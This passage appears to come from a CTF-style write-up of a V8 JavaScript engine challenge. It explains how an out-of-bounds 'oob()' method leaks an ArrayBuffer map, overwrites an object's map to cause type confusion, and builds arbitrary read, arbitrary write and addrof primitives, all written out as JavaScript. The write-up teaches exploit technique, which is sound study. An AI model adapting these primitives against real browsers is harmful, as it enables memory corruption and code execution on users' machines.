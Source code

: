 #### Exploitation
We can use this vulnerability to overwrite a JSObject's `kMapOffset` member data and create a type confusion inside the V8 engine. 

For example we first leak ArrayBuffer's `kMapOffset` with the following javascript code:


```javascript
var leakb = new Array(1.1,2.2,3.3);
var b = new ArrayBuffer(100);
var arr_buf_map = leakb.oob(); // leak !

```

Then, we can use the following javascript to change an object into a Arraybuffer:


```javascript
var a = new Array(1.1,2.2,3.3);
var objA = {"a":3, "b":0x4142};
a.oob(arr_buf_map); // objA's kMapOffset will be changed to ArrayBuffer type

```

Now V8 will think `objA` is a `ArrayBuffer`. Moreover, in this case V8 will treat `objA["a"]` as the length of the ArrayBuffer and `objA["b"]` as the back pointer of the ArrayBuffer. With this we can actually create a read/write primitive with the following code:


```javascript
// arbitrary leak ( read )
function leak(addr){ 
    let a = new Array(1.1,2.2,3.3, 4.4); // for changing objA to array buffer
    let objA = {"a":itf(1000n), "c":itf(BigInt(addr))}; // "a" for buffer length, "c" for address
    a.oob(arr_buf_map);
    let test = new Float64Array(objA,0,100);
    return fti(test[0]);
}

// arbitrary write
function write(addr, val){
    let a = new Array(1.1,2.2,3.3, 4.4); // for changing objA to array buffer
    let objA = {"a":itf(1000n), "c":itf(BigInt(addr))}; // "a" for buffer length, "c" for address
    a.oob(arr_buf_map);
    let test = new Float64Array(objA,0,100);
    test[0] = itf(BigInt(val));
}

```
Here `itf` and `fti` are some utilities to make us convert value between double <-> integer more conveniently.

With the similar approach we can also create a `addrof` primitive:


```javascript
// leaking a JSObject's address
function addrof(obj){
    let z = new Array(1.1,2.2,3.3); // for changing objZ to array buffer
    let objZ = {"a":itf(1000n), "b":{"c":obj}}; // for leaking object addr
    z.oob(arr_buf_map);
    let shit = new Float64Array(objZ,0,100);
    addr_low = fti(shit[2])>>56n;
    addr_high = (fti(shit[3])&0xffffffffffffn)<<8n;
    ret = (addr_high | addr_low); // function object address
    return ret;
}

```

